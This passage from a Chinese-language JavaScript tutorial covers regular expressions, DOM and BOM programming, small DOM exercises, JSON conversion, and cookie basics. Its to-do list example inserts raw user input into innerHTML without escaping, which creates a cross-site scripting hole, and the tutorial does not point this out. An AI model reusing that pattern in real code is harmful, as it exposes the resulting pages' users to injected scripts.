|   | ISBN（国际标准书号） | `^(?:ISBN(?:-1[03])?:? )?(?=[0-9X]{10}$ |

## JS 中使用正则表达式

### JS 中创建正则表达式对象

在 JavaScript 中，你可以通过两种方式创建正则表达式对象：

#### 字面量方式（推荐）

对于已知的、固定的模式，推荐使用字面量方式，语法更简洁

使用斜杠 `/` 包围正则表达式模式：

```javascript
const regex = /pattern/flags;
```

示例：

```javascript
// 匹配所有数字
const numberRegex = /\d+/g;

// 匹配邮箱
const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
```

#### 构造函数方式

当需要动态构建正则表达式时（如基于用户输入），必须使用构造函数方式

使用 `RegExp` 构造函数：

```javascript
const regex = new RegExp('pattern', 'flags');
```

示例：

```javascript
// 匹配所有数字
const numberRegex = new RegExp('\\d+', 'g');

// 动态创建正则表达式
const searchTerm = 'hello';
const dynamicRegex = new RegExp(searchTerm, 'i');
```

#### 常用标志（flags）

- `i` - 忽略大小写
- `g` - 全局匹配（查找所有匹配而非在第一个匹配后停止）【不会以换行符作为分界点】
- `m` - 多行模式 【会以换行符作为分界点】

`g`和 `m`的区别：

```javascript
const str = "a1\na2\na3";

// 字符串都有match方法，字符串的match方法返回数组，这个数组中都是能够匹配上正则表达式的字符串。

// 没有 m：^ 只匹配整个字符串的开头
// 你可能会有一个疑问？不是说g是全局匹配吗？怎么又变成"只匹配整个字符串的开头"了？
// g 确实是匹配全局，以下这个正则表达式只匹配开头是 ^ 符号决定的。
// 以下这个match匹配的是：不管你字符串有多少行，返回的就是整个字符串的开头。
str.match(/^a\d/g);   // ["a1"]

// 有 m：^ 匹配每行的开头（要想达到匹配每一行的开头，必须gm联合使用。单独一个m只是会获取到第一个。）
// m是以换行符作为分界点的。g不会以换行符作为分界点。
str.match(/^a\d/gm);  // ["a1", "a2", "a3"]
```

### 正则表达式对象的常用方法

| **方法** | **返回值** | **使用场景** | **示例** |
| --- | --- | --- | --- |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">test()</font>**` | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">boolean</font>**` | 快速验证字符串是否匹配模式 | `**<font style="color:#DF2A3F;background-color:rgb(236, 236, 236);">/\d+/</font>****<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">.test("abc123")</font>**`→ `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">true</font>**`**只要字符串中含有数字结构就是 true** `**<font style="color:#DF2A3F;background-color:rgb(236, 236, 236);">/^\d+$/</font>****<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">.test("abc123")</font>**`→ `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">false</font>**`**要求字符串整体都是数字** |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">exec()</font>**` | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">Array</font>**`或 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">null</font>**` | 提取匹配细节（位置等信息） 注意： **let regExp = /\d+/g;** **regExp.exec('123x456y789')** **regExp.exec('123x456y789')** **regExp.exec('123x456y789')** **第一次调用 exec，结果是 123** **第二次调用 exec，结果是 456** **第三次调用 exec，结果是 789** **第四次调用 exec，结果是 null** **如果要将字符串中所有的数字都找到，可以编写一个循环，但正则要添加 g 标志。** | `**/\d+/g.exec('123x456y789')**`→ ['123', index: 0, input: '123x456y789', groups: undefined] |
| `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">toString()/source</font>**` | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">string</font>**` | 获取正则表达式的字符串表示 | `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">/abc/gi.toString()</font>**`→ `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">"/abc/gi"</font>**` `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">/abc/gi.source</font>**`→ `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">"abc"</font>**` |

使用正则表达式，返回字符串中符合正则表达式的所有子字符串：

**第一种方案**：使用正则表达式对象的 exec 方法

```html
<script>
    const str = '123x456y789';
    const regExp = /\d+/g; // g标志非常重要。
    let match;
    while((match = regExp.exec(str)) !== null){
        console.log(match[0]);
    }
</script>
```

**第二种方案**：使用字符串对象的 match 方法

```html
<script>
    const str = '123x456y789';
    const regExp = /\d+/g; // g标志非常重要
    console.log(str.match(regExp));
</script>
```

### 实现邮箱地址验证

页面如下：

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>邮箱地址验证演示</title>
    <style>
        body {
            font-family: 'Arial', sans-serif;
            background: linear-gradient(135deg, #f5f7fa 0%, #c3cfe2 100%);
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            color: #333;
        }
        
        .container {
            background-color: white;
            border-radius: 10px;
            box-shadow: 0 10px 20px rgba(0, 0, 0, 0.1);
            padding: 30px;
            width: 400px;
            text-align: center;
        }
        
        h1 {
            color: #2c3e50;
            margin-bottom: 30px;
            font-size: 24px;
        }
        
        .input-group {
            margin-bottom: 20px;
            position: relative;
        }
        
        input[type="email"] {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #ddd;
            border-radius: 5px;
            font-size: 16px;
            transition: all 0.3s;
            box-sizing: border-box;
        }
        
        input[type="email"]:focus {
            border-color: #3498db;
            outline: none;
            box-shadow: 0 0 5px rgba(52, 152, 219, 0.5);
        }
        
        button {
            background-color: #3498db;
            color: white;
            border: none;
            padding: 12px 20px;
            border-radius: 5px;
            cursor: pointer;
            font-size: 16px;
            transition: background-color 0.3s;
            width: 100%;
        }
        
        button:hover {
            background-color: #2980b9;
        }
        
        .message {
            margin-top: 20px;
            padding: 10px;
            border-radius: 5px;
            display: none;
            font-weight: bold;
        }
        
        .valid {
            background-color: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
            display: block;
        }
        
        .invalid {
            background-color: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
            display: block;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>邮箱地址验证演示</h1>
        
        <div class="input-group">
            <input type="email" id="emailInput" placeholder="请输入邮箱地址" autocomplete="off">
        </div>
        
        <button id="validateBtn">验证邮箱地址</button>
        
        <div id="message" class="message"></div>
    </div>

    <script>
        document.getElementById('validateBtn').addEventListener('click', function() {
            const email = document.getElementById('emailInput').value.trim();
            const messageElement = document.getElementById('message');
            
            if (!email) {
                messageElement.textContent = "请输入邮箱地址";
                messageElement.className = "message invalid";
                return;
            }
            
            const emailReg = /^[a-zA-Z0-9.!#$%&'*+/=?^_`{|}~-]+@[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?(?:\.[a-zA-Z0-9](?:[a-zA-Z0-9-]{0,61}[a-zA-Z0-9])?)*$/;
            const isValid = emailReg.test(email);
            
            if (isValid) {
                messageElement.textContent = "✔ 邮箱地址格式有效";
                messageElement.className = "message valid";
            } else {
                messageElement.textContent = "✘ 邮箱地址格式无效";
                messageElement.className = "message invalid";
            }
        });
    </script>
</body>
</html>
```

# DOM 编程


DOM编程是指使用JavaScript来操作**文档对象模型(Document Object Model)**，从而动态地改变网页内容、结构和样式的编程方式。

## 基本DOM查询与修改

```javascript
// 示例1：通过id获取元素并修改内容
let header = document.getElementById('header');
header.textContent = '欢迎学习DOM编程!';

// 示例2：通过类名获取元素集合
let items = document.getElementsByClassName('item');
for (let i = 0; i < items.length; i++) {
    items[i].style.color = 'blue';
}

// 示例3：通过标签名获取元素
let ps = document.getElementsByTagName('p');
ps[0].innerHTML = '这是第一个段落，已被修改。';

// 以下是现代比较推荐的方式
// 示例4：通过选择器获取元素，和CSS选择器通用（获取符合选择器的第一个元素）
let container = document.querySelector('#container');

// 获取选择器对应的所有元素
let allItems = document.querySelectorAll(".item");

// 示例5：查找离element最近的祖先元素（从当前元素开始向上查找匹配指定选择器的最近的祖先元素（包括自己））
// 返回一个值。从自己开始匹配，自己符合就返回自己，自己不符合再找最近的祖先。
let elt = element.closest('.item');

// 示例6：判断element元素是否匹配选择器
let isMatch = element.matches('.some-class');
```

## 创建和添加元素

```javascript
// 示例1：创建新元素并添加到DOM
let newDiv = document.createElement('div');
newDiv.textContent = '我是新创建的div元素!';
document.body.appendChild(newDiv);


// 示例2：在特定位置插入元素
let container = document.getElementById('container');
let p = document.createElement('p');
p.textContent = '插入到容器中的新段落';
// 新元素插入到指定元素前面
container.insertBefore(p, 指定一个元素);

// 关于元素的firstChild和lastChild
// JS中的元素都有firstChild和lastChild属性
// firstChild用来获取当前元素下的第一个子元素
// lastChild用来获取当前元素下的最后一个子元素
<div id="container">
  <div>项目</div>
</div>
// 需要注意的是：对于以上div来说
container.firstChild // 是一个文本节点
container.lastChild // 也是一个文本节点
```

效率更高的一种方式，适合于批量DOM操作（使用文档片段DocumentFragment）

```javascript
const fragment = document.createDocumentFragment();
for(let i = 0; i < 100; i++) {
    const item = document.createElement('div');
    item.textContent = `Item ${i}`;
    fragment.appendChild(item);
}
document.body.appendChild(fragment);
```

## 样式操作

```javascript
// 示例1：修改元素样式
let box = document.getElementById('box');
box.style.backgroundColor = 'lightblue';
box.style.width = '200px';
box.style.height = '200px';

// 示例2：切换类名来改变样式
let button = document.getElementById('btn');
button.addEventListener('click', function() {
    let element = document.getElementById('target');
    element.classList.toggle('otherClassName');
    // 通过元素的 className 也可以切换样式
    // element.className = "class1 class2 class3 class4.....";
});
```

## 表单交互

```javascript
// 示例1：获取表单输入值
document.getElementById('submit-btn').addEventListener('click', function(e) {
    e.preventDefault(); // 阻止表单默认提交行为
    let input = document.getElementById('name-input');
    alert('你输入的名字是: ' + input.value);
});

// 示例2：动态更新输入反馈
let textInput = document.getElementById('text-input');
let feedback = document.getElementById('feedback');
textInput.addEventListener('input', function() {
    feedback.textContent = '你正在输入: ' + this.value;
});
```

## 遍历DOM

元素的两个属性：

- 获取所有的子元素：`element.children`
- 获取当前元素的父元素：`element.parentNode`

```javascript
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DOM元素遍历与父元素查找示例</title>
</head>
<body>
    <!-- 示例1：遍历子元素 -->
    <h2>遍历子元素示例</h2>
    <ul id="my-list">
        <li>项目 1</li>
        <li>项目 2</li>
        <li>项目 3</li>
        <li>项目 4</li>
    </ul>
    
    <!-- 示例2：查找父元素 -->
    <h2>查找父元素示例</h2>
    <div id="parent-element">
        <p>这是一个父元素</p>
        <div id="child-element">这是一个子元素，点击我会高亮父元素</div>
    </div>
    
    <script>
        // 示例1：遍历子元素
        let list = document.getElementById('my-list');
        let items = list.children;
        
        console.log("遍历子元素:");
        for (let item of items) {
            console.log(item.textContent);
            // 为每个项目添加样式
            item.style.color = 'blue';
        }
        
        // 示例2：查找父元素
        let child = document.getElementById('child-element');
        
        // 添加点击事件
        child.addEventListener('click', function() {
            let parent = child.parentNode;
            parent.style.border = '2px solid red';
            parent.style.padding = '10px';
            parent.style.backgroundColor = '#f0f0f0';
            
            console.log("父元素ID:", parent.id);
        });
    </script>
</body>
</html>
```

## 属性操作

元素的三个方法：

- 获取属性值：`属性值 = element.getAttribute("属性名")`
- 设置属性值：`element.setAttribute("属性名", "属性值")`
- 判断是否存在某属性：`element.hasAttribute("属性名")`

```javascript
<!DOCTYPE html>
<html>
<head>
    <title>DOM属性操作示例</title>
</head>
<body>
    <!-- 示例元素 -->
    
    <a id="my-link" href="https://example.com" target="_blank">示例链接</a>

    <script>
        // 示例1：获取和设置属性
        let image = document.getElementById('my-image');
        console.log('原src:', image.getAttribute('src'));
        
        image.setAttribute('alt', '这是一张图片描述');
        console.log('新alt:', image.getAttribute('alt'));
        
        // 示例2：检查是否有某属性
        let link = document.getElementById('my-link');
        if (link.hasAttribute('target')) {
            console.log('这个链接有target属性');
        }
        
        if (!link.hasAttribute('title')) {
            console.log('这个链接没有title属性');
        }
    </script>
</body>
</html>
```

## 动态列表操作

元素的一个方法：

- 删除当前元素：`element.remove()`

```javascript
<!DOCTYPE html>
<html>
<body>
    <button id="btn">元素</button>
    <script>
        document.addEventListener("DOMContentLoaded", function(){
          document.querySelector("#btn").addEventListener('click', function(e){
            e.target.remove();
          });
        });
    </script>
</body>
</html>
```

## 简单的DOM动画

移动元素的话就是不断设置 `left/right/top/bottom`的样式，但 `position`属性需要设置为 `relative`

淡入淡出的效果主要是改变元素 `opacity`的样式。

```javascript
<!DOCTYPE html>
<html>
  <style>
    .box{
      position:relative; 
      width: 100px;
      height: 100px;
      background-color: black;
    }
  </style>
<body>
    <button id="btn1">移动</button>
    <div id="box1" class="box"></div>

    <button id="btn2">淡入淡出</button>
    <div id="box2" class="box"></div>

    <script>
        let btn1 = document.getElementById('btn1');
        let box1 = document.getElementById('box1');
        let pos = 0;

        btn1.addEventListener('click', function() {
            pos += 10;
            // 要实现这个功能，box的css样式中必须指定了 position 样式，例如：position:relative;
            box1.style.left = pos + 'px';
        });

        let btn2 = document.getElementById('btn2');
        let box2 = document.getElementById('box2');
        let op = 1;

        btn2.addEventListener('click', function() {
            op = op === 1 ? 0.3 : 1;
            box2.style.opacity = op;
            // 让 fadeBox 元素的 opacity（透明度）属性在发生变化时，以 0.5 秒的时间平滑过渡（而不是瞬间变化）。
            box2.style.transition = 'opacity 0.5s';
        });
    </script>
</body>
</html>
```

# DOM 编程综合小项目


## 网页实时时间显示

主要掌握：setInterval 周期性的执行某个任务。

```html
<!DOCTYPE html>
<html>
<body>
    <div id="time"></div>

    <script>
        function updateTime() {
            const now = new Date();
            document.getElementById('time').textContent = now.toLocaleString();
        }
        
        updateTime();
        setInterval(updateTime, 1000);
    </script>
</body>
</html>
```

## 表格行的动态添加与删除

主要掌握表格、表格行、表格单元格的操作：

- 添加行：`表格对象.insertRow()`
- 行中添加单元格：`表格行对象.insertCell()`

```html
<!DOCTYPE html>
<html>
<body>
    <input id="name" placeholder="姓名">
    <input id="age" placeholder="年龄">
    <button id="addBtn">添加</button>

    <table id="dataTable">
        <tr>
            <th>姓名</th>
            <th>年龄</th>
            <th>操作</th>
        </tr>
    </table>

    <script>
        const addBtn = document.getElementById('addBtn');
        const table = document.getElementById('dataTable');
        
        addBtn.addEventListener('click', function() {
            const name = document.getElementById('name').value;
            const age = document.getElementById('age').value;
            
            if (!name || !age) return;
            
            const row = table.insertRow();
            row.insertCell().textContent = name;
            row.insertCell().textContent = age;
            
            const deleteBtn = document.createElement('button');
            deleteBtn.textContent = '删除';
            deleteBtn.onclick = function() {
                row.remove();
            };
            
            row.insertCell().appendChild(deleteBtn);
            
            document.getElementById('name').value = '';
            document.getElementById('age').value = '';
        });
    </script>
</body>
</html>
```

## 菜单的显示与隐藏

主要是掌握元素的：`display 样式`。

```html
<!DOCTYPE html>
<html>
<body>
    <button id="control">显示</button>
    <div id="menu" style="display:none">
        <div>选项1</div>
        <div>选项2</div>
        <div>选项3</div>
    </div>

    <script>
        document.addEventListener("DOMContentLoaded", function(){
          let menu = document.querySelector("#menu");
          let status = 0;
          document.getElementById("control").addEventListener("click", function(){
            if(status == 0){
              menu.style.display = 'block';
              status = 1;
            }else{
              menu.style.display = 'none';
              status = 0;
            }
          });
        });
    </script>
</body>
</html>
```

## 待办事项列表

```html
<!DOCTYPE html>
<html>
<body>
    <input id="input" placeholder="添加任务">
    <button onclick="addTask()">添加</button>
    <ul id="list"></ul>

    <script>
        function addTask() {
            const input = document.getElementById('input');
            const text = input.value.trim();
            
            if (!text) return;
            
            const li = document.createElement('li');
            li.innerHTML = `
                <span onclick="this.parentElement.classList.toggle('done')">${text}</span>
                <button onclick="this.parentElement.remove()">删除</button>
            `;
            
            document.getElementById('list').appendChild(li);
            input.value = '';
        }
        
        // 支持按Enter键添加
        document.getElementById('input').onkeypress = function(e) {
            if (e.key === 'Enter') addTask();
        };
    </script>
    
    <style>
        .done { text-decoration: line-through; }
    </style>
</body>
</html>
```

## 表单验证

```html
<!DOCTYPE html>
<html>
<body>
    <form id="form">
        <input type="text" id="username" placeholder="用户名">
        <div id="userError" style="color:red;display:none">用户名只能包含字母数字_$</div>
        
        <input type="password" id="password" placeholder="密码">
        <div id="passError" style="color:red;display:none">密码至少8位且包含大小写字母和数字</div>
        
        <input type="password" id="confirm" placeholder="确认密码">
        <div id="confirmError" style="color:red;display:none">密码不一致</div>
        
        <button type="submit">注册</button>
    </form>

    <script>
        const form = document.getElementById('form');
        const username = document.getElementById('username');
        const password = document.getElementById('password');
        const confirm = document.getElementById('confirm');
        
        function validateUsername() {
            const valid = /^[a-zA-Z0-9_$]+$/.test(username.value);
            document.getElementById('userError').style.display = valid ? 'none' : 'block';
            return valid;
        }
        
        function validatePassword() {
            const hasUpper = /[A-Z]/.test(password.value);
            const hasLower = /[a-z]/.test(password.value);
            const hasNumber = /[0-9]/.test(password.value);
            const valid = password.value.length >= 8 && hasUpper && hasLower && hasNumber;
            document.getElementById('passError').style.display = valid ? 'none' : 'block';
            return valid;
        }
        
        function validateConfirm() {
            const valid = password.value === confirm.value;
            document.getElementById('confirmError').style.display = valid ? 'none' : 'block';
            return valid;
        }
        
        form.onsubmit = function(e) {
            e.preventDefault();
            if (validateUsername() && validatePassword() && validateConfirm()) {
                alert('注册成功！');
                form.reset();
            }
        };
        
        // 实时验证
        username.oninput = validateUsername;
        password.oninput = validatePassword;
        confirm.oninput = validateConfirm;
    </script>

</body>
</html>
```

## 全选和取消全选

```html
<!DOCTYPE html>
<html>
<body>
    <input type="checkbox" id="selectAll"> 全选/取消全选
    <br><br>
    <input type="checkbox" class="item"> 选项1
    <input type="checkbox" class="item"> 选项2
    <input type="checkbox" class="item"> 选项3
    <input type="checkbox" class="item"> 选项4

    <script>
        const selectAll = document.getElementById('selectAll');
        const items = document.querySelectorAll('.item');
        
        selectAll.onclick = function() {
            items.forEach(item => {
                item.checked = selectAll.checked;
            });
        };
        
        items.forEach(item => {
            item.onclick = function() {
                selectAll.checked = [...items].every(i => i.checked);
            };
        });
    </script>
</body>
</html>
```

## 轮播图

```html
<!DOCTYPE html>
<html>
<body>
    <!-- overflow:hidden 隐藏超出容器范围的内容-->
    <div style="width:400px;overflow:hidden">
        <!-- transition:0.5s 作用：让样式变化有过渡动画效果 -->
        <div id="slider" style="display:flex;transition:0.5s">
            
            
            
        </div>
    </div>
    
    <script>
        let index = 0;
        const slider = document.getElementById('slider');
        // 获取图片的个数
        const total = slider.children.length;
        
        function next() {
            index = (index + 1) % total;
            // transform样式的作用：平移
            // translateX(100px) 右平移100px
            // translateX(-100px) 左平移100px

            // index=0 → translateX(0px)      // 起始位置
            // index=1 → translateX(-400px)   // 左移400px
            // index=2 → translateX(-800px)   // 左移800px  
            // index=0 → translateX(0px)      // 回到起始位置
            slider.style.transform = `translateX(-${index * 400}px)`;
        }
        
        // 自动轮播
        setInterval(next, 3000);
    </script>
</body>
</html>
```

## 可编辑表格

```html
<!DOCTYPE html>
<html>
<body>
    <button onclick="addRow()">添加行</button>
    <button onclick="saveData()">保存</button>
    
    <table border="1" id="table">
        <tr>
            <td contenteditable>张三</td>
            <td contenteditable>25</td>
            <td><button onclick="this.parentElement.parentElement.remove()">删除</button></td>
        </tr>
        <tr>
            <td contenteditable>李四</td>
            <td contenteditable>30</td>
            <td><button onclick="this.parentElement.parentElement.remove()">删除</button></td>
        </tr>
    </table>

    <script>
        function addRow() {
            const row = document.createElement('tr');
            row.innerHTML = `
                <td contenteditable></td>
                <td contenteditable></td>
                <td><button onclick="this.parentElement.parentElement.remove()">删除</button></td>
            `;
            document.getElementById('table').appendChild(row);
        }
        
        function saveData() {
            const rows = document.querySelectorAll('#table tr');
            const data = [];
            
            rows.forEach(row => {
                const cells = row.querySelectorAll('td');
                if (cells[0].textContent) {
                    data.push({
                        name: cells[0].textContent,
                        age: cells[1].textContent
                    });
                }
            });
            
            console.log('保存的数据:', data);
            alert('数据已保存到控制台');
        }
    </script>
</body>
</html>
```

# BOM编程


BOM 是 JavaScript 与浏览器交互的核心模型，它提供了一组对象和方法，用于操作浏览器窗口、导航、历史记录、屏幕等与网页内容无关的浏览器功能。

（注意：BOM 不是 W3C 标准，不同浏览器实现可能有差异，但核心功能基本一致。）

## window 对象

**全局作用域**：`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window</font>**` 是 BOM 的顶层对象，所有全局变量和函数都是 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window</font>**` 的属性和方法。

**常用属性和方法**：

- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window.innerWidth</font>**` / `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window.innerHeight</font>**`：视口尺寸。
- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window.open()</font>**` / `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window.close()</font>**`：打开/关闭窗口。
- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window.alert()</font>**`、`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window.prompt()</font>**`、`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">window.confirm()</font>**`：用户交互对话框。

## location 对象

**操作 URL**：

- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">location.href</font>**`：获取或设置完整 URL（页面跳转）。
- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">location.search</font>**`：获取查询字符串（如 `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">?id=123</font>**`）。
- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">location.hash</font>**`：获取哈希值，现代前端框架（如Vue）的客户端路由依赖 hash。
  - `<font style="color:rgb(64, 64, 64);">url#section1</font>` 的 `<font style="color:rgb(64, 64, 64);">location.hash</font>` 的执行结果是 `<font style="color:rgb(64, 64, 64);">#section1</font>`
- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">location.reload()</font>**`：刷新页面。

## navigator 对象

**浏览器和系统信息**：

`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">navigator.userAgent</font>**`：浏览器标识。

```javascript
const ua = navigator.userAgent;

// 判断真实浏览器
if (ua.includes('Chrome') && !ua.includes('Edg')) {
    console.log('这是 Chrome 浏览器');
} else if (ua.includes('Safari') && !ua.includes('Chrome')) {
    console.log('这是 Safari 浏览器');
} else if (ua.includes('Firefox')) {
    console.log('这是 Firefox 浏览器');
} else if (ua.includes('Edg')) {
    console.log('这是 Edge 浏览器');
}
```

可以通过它判断用户是否使用手机访问。

```javascript
function isMobile() {
    return /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i.test(navigator.userAgent);
}
```

`**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">navigator.language</font>**`：语言版本。

## history 对象

**操作浏览器历史记录**：

- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">history.back()</font>**` / `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">history.forward()</font>**`：后退/前进。
- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">history.go(n)</font>**`：跳转到历史记录中的第 n 页。

## screen 对象

**屏幕信息**：

- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">screen.width</font>**` / `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">screen.height</font>**`：屏幕分辨率。例如：1920 1080
- `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">screen.availWidth</font>**` / `**<font style="color:rgb(64, 64, 64);background-color:rgb(236, 236, 236);">screen.availHeight</font>**`：可用屏幕区域（排除任务栏等）。例如：1920 1040

# JSON字符串


## 什么是JSON

JSON（JavaScript Object Notation）是一种轻量级的数据交换格式，它基于ECMAScript的一个子集，采用完全独立于编程语言的文本格式来存储和表示数据。

JSON的特点：

- 易于人阅读和编写
- 易于机器解析和生成

## JSON的语法格式

JSON的基本语法规则：

1. 数据以键值对形式存在 `"key": value`（注意：合法的 JSON 字符串中的 key 必须使用双引号括起来）
2. 数据由逗号分隔 `,`
3. 大括号 `{}` 保存对象（无序的键值对集合）
4. 中括号 `[]` 保存数组（有序的值集合）

JSON支持的数据类型：

- 字符串（必须用双引号）
- 数字（整数或浮点数）
- 布尔值（true/false）
- 数组（在方括号中）
- 对象（在花括号中）
- null

## JSON 示例

```json
{
  "name": "张三",
  "age": 30,
  "isStudent": false,
  "hobbies": ["读书", "游泳", "编程"],
  "address": {
    "street": "人民路123号",
    "city": "北京",
    "postalCode": "100000"
  },
  "languages": [
    {"name": "中文", "level": "母语"},
    {"name": "英语", "level": "流利"}
  ],

  "hasCar": null
}
```

## JS 对象转 JSON 字符串

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>JSON字符串和JS对象互转</title>
</head>
<body>
  <script>
    const user = {
      username: 'jackson',
      age: 20,
      hobbies: ['抽烟','喝酒','烫头']
    };
    // JS对象转JSON字符串
    const userJSONStr = JSON.stringify(user);
    console.log(userJSONStr);
  </script>
</body>
</html>
```

执行结果：



## JSON 字符串转 JS 对象

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>JSON字符串和JS对象互转</title>
</head>
<body>
  <script>
    const userJSONStr = '{"username":"jackson","age":20,"hobbies":["抽烟","喝酒","烫头"]}';
    // 将JSON字符串转换为JS对象
    const user = JSON.parse(userJSONStr);
    console.log(user);
  </script>
</body>
</html>
```

执行结果：



# Cookie 和 WebStorage


## Cookie

### 什么是 Cookie？

- Cookie 是存储在用户浏览器中的小型文本数据（键值对），通常由服务器生成，当然，前端也可以生成 Cookie，读取 Cookie。
- **主要用途**：
  - 会话管理（如用户登录状态）：HTTP 协议是一个无状态协议，一次请求响应结束之后，通道就断开了。服务器无法知道客户的状态，因此 HTTP 协议是无状态的。这里不要误解哈：HTTP 协议是一个有连接的协议，可靠的协议，但它是一种无状态的。既然是无状态的，那么当用户登录成功之后，服务器怎么知道该用户一直是一种已登录的状态呢？传统的实现方式是：当用户第一次登录成功后，服务器会向浏览器响应一个 Cookie，这个 Cookie 中保存了会话 id，只要浏览器不关闭，下一次发送请求时会自动携带 Cookie 到服务器，服务器获取到会话 id 之后，验证会话 id 是否有效，如果有效则表示该用户已登录，这样就可以一直保持住会话的状态了。（**现代开发一般向浏览器响应一个带有 HttpOnly 标志的 Cookie，Cookie 中不存放会话 id，存放 token 令牌。**）
  - 跟踪用户行为（如广告推荐）。当用户首次访问网站时，服务器通过Set-Cookie响应头为用户分配一个唯一标识符（如user_id=abc123）。随后用户在每个页面的浏览和点击行为都会通过请求自动携带这个cookie发送到服务器，服务器将行为数据与user_id关联存储。通过分析这些累积的用户行为数据，广告系统可以构建用户兴趣画像，在后续访问中展示个性化推荐广告。

### Cookie 的基本操作

**使用 JS 代码设置 Cookie**

```javascript
document.cookie = "username=John; expires=Thu, 18 Dec 2025 12:00:00 UTC; path=/";
document.cookie = 'productId=p001';
```

- `username=John`：键值对。
- `expires`：过期时间（不设置则关闭浏览器后失效）。
- `path=/`：Cookie 的作用路径（默认当前页面路径）。

**Chrome 浏览器查看 Cookie**



**使用 JS 代码读取 Cookie**

```javascript
console.log(document.cookie); // 输出所有 Cookie（字符串形式）
```

- 返回格式：`"key1=value1; key2=value2"`，需手动解析。

**使用 JS 代码删除 Cookie**

```javascript
document.cookie = "username=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/;";
```

- 设置过期时间为过去时间，浏览器会自动删除。

### Cookie 的常见属性

| **属性** | **作用** | **示例** |
| --- | --- | --- |
| `expires` | 设置过期时间 | `expires=Thu, 18 Dec 2025 12:00:00 UTC` |
| `max-age` | 设置存活时间（秒） | `max-age=3600`（1小时后过期） |
| `domain` | 指定 Cookie 生效的域名 | `domain=example.com` |
| `path` | 指定 Cookie 生效的路径 | `path=/admin` |
| `Secure` | 仅 HTTPS 传输 | `Secure` |
